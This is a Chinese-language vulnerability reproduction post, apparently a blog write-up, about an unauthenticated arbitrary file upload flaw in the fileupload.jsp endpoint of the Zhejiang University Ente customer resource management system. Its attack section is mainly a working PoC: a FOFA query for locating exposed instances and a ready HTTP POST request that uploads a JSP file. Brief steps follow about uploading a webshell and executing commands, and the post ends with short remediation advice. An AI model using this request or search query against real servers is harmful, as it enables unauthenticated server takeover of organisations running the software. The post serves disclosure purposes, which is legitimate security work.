




# 浙大恩特客户资源管理系统任意文件上传漏洞复现

### 0x01 产品简介

     浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

  浙大恩特客户资源管理系统中fileupload.jsp接口处存在[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以上传任意后门文件，最终可导致服务器失陷。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"



### 0x04 漏洞复现 

PoC

```cobol
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Type: application/x-www-form-urlencoded
Connection: close
Accept-Encoding: gzip, deflate

123
```



回显了上传路径 

验证


上传马子



命令执行 

###  0x05 修复建议 

关闭互联网暴露面或设置接口访问权限

 升级至安全版本
